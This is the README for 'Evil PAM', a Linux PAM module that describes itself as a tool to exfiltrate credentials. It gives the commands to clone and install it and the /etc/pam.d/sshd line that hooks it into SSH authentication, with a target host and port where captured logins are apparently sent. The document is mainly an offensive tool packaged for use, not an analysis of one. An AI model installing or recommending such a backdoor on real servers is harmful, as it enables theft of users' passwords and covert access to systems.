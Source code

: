 # Evil PAM
PAM module to exfiltrate credentials

## Usage

Install the module:
```
apt install libpam0g-dev
git clone https://github.com/itasahobby/pam_evil.git
make install
```

Configure SSH to use the PAM module adding the following to `/etc/pam.d/sshd`:
```
auth       optional     pam_evil.so target=127.0.0.1 port=8888
```

## Mentions
In colaboration with [Dreg](https://github.com/David-Reguera-Garcia-Dreg/)

## References
* https://web.archive.org/web/20190523222819/https://fedetask.com/write-linux-pam-module/
* https://unix.stackexchange.com/questions/428437/pam-pam-sm-authenticate-try-to-get-get-user-and-password-of-non-esixting-users

## Mentions
Idea inspired by Dreg
